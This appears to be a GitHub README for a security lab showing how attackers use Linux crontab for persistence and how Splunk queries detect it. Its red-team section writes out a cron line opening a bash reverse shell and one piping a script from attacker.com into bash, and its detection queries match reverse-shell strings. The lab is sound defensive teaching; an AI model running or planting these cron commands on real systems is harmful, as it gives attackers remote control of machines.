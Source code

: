 # 🔁 Crontab Persistence Detection – MITRE T1053.003

This lab demonstrates how attackers use Linux `crontab` (scheduled tasks) for persistence — one of the most common and stealthy techniques to maintain access on compromised machines.

---

## 🎯 MITRE ATT&CK Mapping
- **Tactic:** Persistence
- **Technique:** T1053.003 – Scheduled Task/Job: Cron

---

## 🧪 Red Team Simulation

A malicious cron job was created to establish persistence via a reverse shell triggered every minute:


crontab -e
*/1 * * * * bash -c 'bash -i >& /dev/tcp/192.168.56.1/4444 0>&1'

Alternatively, data exfiltration or command execution can be triggered with:

*/2 * * * * curl http://attacker.com/script.sh | bash

## 🔎 Blue Team Detection (Splunk)

Logs used:

.bash_history

syslog

auth.log

## 🛡️ Splunk Detection Queries

1. Detect cron jobs and crontab edits

index=* ("cron" OR "crontab" OR "/var/spool/cron/" OR "CRON")
| table _time, host, source, sourcetype, user, message

2. Detect common persistence payloads (reverse shell)

index=* "/dev/tcp/" OR ">&" OR "bash -i"
| table _time, host, user, message

3. Detect crontab commands via .bash_history

index=* source="/home/*/.bash_history"
| search message="crontab" OR message="/dev/tcp/" OR message="curl"
| table _time, host, user, message



## ✅ Outcome

This simulation successfully triggered a cron-based reverse shell, and the execution was detected via .bash_history, syslog, and Splunk alerting logic.

## 📚 Recommendation

Regularly audit /var/spool/cron/ and crontab files.

Monitor bash_history and syslog for hidden persistence techniques.

Restrict crontab access to privileged users only.
